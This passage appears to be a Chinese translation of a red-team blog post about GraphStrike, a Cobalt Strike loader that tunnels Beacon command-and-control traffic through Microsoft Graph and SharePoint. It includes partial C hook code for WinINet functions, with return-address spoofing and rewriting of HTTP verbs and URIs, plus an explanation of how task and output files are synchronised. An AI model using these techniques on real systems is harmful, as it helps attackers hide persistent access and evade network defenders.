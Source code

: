 ```plain
        hResult =  ( HINTERNET )SPOOF( pMemAddrs->Api.net.HttpOpenRequestA, 
                                        pMemAddrs->Api.net.hNet, 
                                        pMemAddrs->Api.net.size, 
                                        hInternet, 
                                        C_PTR( lpszVerb ), 
                                        C_PTR( lpszObjectName ), 
                                        C_PTR( lpszVersion ), 
                                        C_PTR( lpszReferrer ), 
                                        C_PTR( lplpszAcceptTypes ), 
                                        C_PTR( U_PTR( dwFlags ) ),
                                        C_PTR( U_PTR( dwContext ) ) );

    return hResult;
};
```

在代码的第 18 行，我们将检查 Beacon 传递给 HttpOpenRequestA\_Hook 的 "lpszVerb" 变量，以确定对 HttpOpenRequestA 的调用是 http-get 循环的一部分，还是 http-post 循环的一部分。我们在配置文件中为 Beacon 的 http-get 和 http-post 请求设置了动词，因此我们可以根据 Beacon 尝试使用的动词来判断这是哪种请求。这种判断在第 27 行使用，请求类型决定了在真正调用 HttpOpenRequestA 时作为参数使用的 "verb" 和 "uri"。在这里，我们利用了对 Beacon 提供的参数的控制，使用了在 SharePoint 中首次创建文件时组装的上传 URI，并在 http-post 请求中用 "PUT" 代替了 "POST"，这样我们就可以使用 Graph API 的 Upload 方法。真正的 API 最终会在第 39 行调用，使用我们自定义的 "verb" 和 "uri" 参数代替 Beacon 指定的原始 "lpszVerb" 和 "lpszObjectName" 参数。

GraphLdr 还支持使用正常的 Cobalt Strike HTTPS Beacon。在导入 "graphstrike.cna" 时，Cobalt Strike 创建的所有 Beacon 都将使用 GraphLdr 作为 Beacon 的 UDRL，但只有当 Beacon 的主机设置为 "graph.microsoft.com" 时，我们才真正需要在 GraphLdr 中完成所有额外工作。至于 Beacon 是 GraphStrike 还是标准 HTTPS，我们将在 InternetConnectA\_Hook 函数中通过检查 Beacon 指定的 "lpszServerName" 参数来确定。其结果将在上述代码段的第 15 行中使用，在该行中，我们将根据此布尔值进行分支。对于普通 HTTPS Beacon，真正的 API 会在第 54 行调用，并使用 Beacon 发送的所有未经修改的原始参数（尽管我们仍在使用 AceLdr 的返回地址欺骗功能）。

-   虽然 GraphStrike 支持在使用 GraphStrike 信号的同时使用标准 HTTPS 信号，但 Cobalt Strike 配置文件还不够灵活，因此这一点并不实用。4.9 版本增加了主机配置文件，但这些配置文件只允许自定义 URI、标头和参数，还不支持按主机指定 Beacon 元数据和会话 ID 的发送方式，也不支持 TS 的回复方式。这就导致标准 HTTPS Beacon 使用了前面 "Beacon 数据和配置文件语言" 部分讨论过的未加混淆的选项。我已经与 Cobalt Strike 团队讨论过这个问题，他们希望在 2024 年的某个时候扩展对这种自定义级别的支持。

# 同步与异步

我已经详细讨论了 GraphStrike 的通信模型，本质上是异步的以及随之而来的挑战，但还有一个问题必须讨论和缓解。 Beacon 不断向 TS 任务文件发出 GET 请求以下载任务，GraphStrike 服务器类似地向 Beacon 输出文件发出 GET 请求以下载输出；无论该文件中存储了什么，他们都会采取并采取行动。这提出了两种问题场景：

1.  在 Cobalt Strike 中发出命令并上传到 TS 任务分配文件。 Beacon 下载命令，运行它，然后发送它的输出。当 Beacon 完成休眠后，它会再次从 TS 任务文件下载并运行相同的命令，因为 Cobalt Strike 没有发出额外的命令来 “擦除” 任务文件。
2.  在另一方成功下载第一次上传的数据之前，Beacon 或 GraphStrike 服务器会两次上传到 SharePoint 中各自的文件。这会导致数据丢失并破坏诸如依赖于来回顺序数据交换的 SOCKS 代理之类的功能。

幸运的是，对于这两种情况都有一个单一的解决方案。当 Beacon 向 TS 任务文件发出 GET 请求并返回数据时，会重复调用 InternetReadFile，直到没有更多数据可供读取。当然，因为我们已经挂钩了这个 API，所以我们的自定义函数会被调用，其中我们会等到读取所有响应数据，然后再将空白文件上传到 TS 任务文件。这可以在以下代码片段的第 32 行看到，其中调用了 “MakeWebRequest”。请注意 “httpGetUri” 和 “PUT\_VERB” 一起使用的独特组合：

```plain
SECTION( D ) BOOL InternetReadFile_Hook( HINTERNET hFile, 
                                          LPVOID lpBuffer, 
                                          DWORD dwNumberOfBytesToRead, 
                                          LPDWORD lpdwNumberOfBytesRead )
{
    BOOL bResult = FALSE;

    // Resolve API's
    struct MemAddrs* pMemAddrs = *(struct MemAddrs**)((PMEMADDR) OFFSET ( MemAddr ) )->address;

    // Call InternetReadFile
    bResult = ( BOOL )U_PTR( SPOOF( pMemAddrs->Api.net.InternetReadFile, 
                                     pMemAddrs->Api.net.hNet, 
                                     pMemAddrs->Api.net.size, 
                                     hFile, 
                                     C_PTR ( lpBuffer ), 
                                     C_PTR( U_PTR ( dwNumberOfBytesToRead ) ), 
```